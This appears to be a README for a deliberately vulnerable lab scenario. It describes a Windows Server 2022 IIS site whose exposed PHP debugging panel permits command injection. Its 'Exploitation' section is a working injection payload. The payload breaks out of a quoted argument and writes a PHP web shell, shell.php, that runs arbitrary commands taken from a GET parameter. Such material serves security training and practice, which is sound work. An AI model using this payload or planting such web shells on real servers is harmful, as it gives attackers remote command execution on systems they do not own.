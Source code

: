 # Windows Server 2022 IIS

Files for Windows Server 2022 IIS scenario.


## Scenario

Company website using php leaves a debugging panel open that allows for php command injection.


## Exploitation

```
'& (echo ^<html^> & echo ^<body^> & echo ^<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"^> &  echo ^<input type="TEXT" name="cmd" id="cmd" size="80"^> & echo ^<input type="SUBMIT" value="Execute"^> & echo ^</form^> & echo ^<pre^> & echo ^<?php & echo     if^(isset^($_GET['cmd']^)^) & echo     { & echo         system^($_GET['cmd']^); & echo     } & echo ?^> & echo ^</pre^> & echo ^</body^> & echo ^<script^>document.getElementById^("cmd"^).focus^(^);^</script^> & echo ^</html^>) > shell.php & echo '```
